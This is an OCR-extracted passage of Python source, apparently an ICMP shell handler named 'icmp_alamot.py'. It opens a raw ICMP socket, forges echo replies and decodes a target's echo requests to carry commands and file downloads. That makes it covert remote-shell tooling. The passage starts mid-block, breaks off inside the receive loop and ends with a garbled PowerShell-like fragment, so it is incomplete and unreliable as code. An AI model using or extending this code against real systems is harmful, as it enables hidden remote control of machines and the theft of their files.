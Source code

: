 ```python

except:

pass

def main(src, dst, UID):

try:

sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)

except socket.error as e:

print('You need to run icmp_alamot.py with administrator privileges')

return 1

sock.setblocking(0)

sock.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)

ip = ImpactPacket.IP()

ip.set_ip_src(src)

ip.set_ip_dst(dst)

icmp = ImpactPacket.ICMP()

icmp.set_icmp_type(icmp.ICMP_ECHOREPLY)

decoder = ImpactDecoder.IPDecoder()

cmd = ""

download_buffer=""

DOWNLOAD_filename = ""

RECEIVED = False

while 1:

if sock in select.select([ sock ], [], [])[0]:

buff = sock.recv(65536)

if 0 == len(buff):

sock.close()

return 0

ippacket = decoder.decode(buff)

icmppacket = ippacket.child()

if ippacket.get_ip_dst() == src and ippacket.get_ip_src() == dst and 8 == icmppacket.get_icmp_type():

ident = icmppacket.get_icmp_id()

seq_id = icmppacket.get_icmp_seq()
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"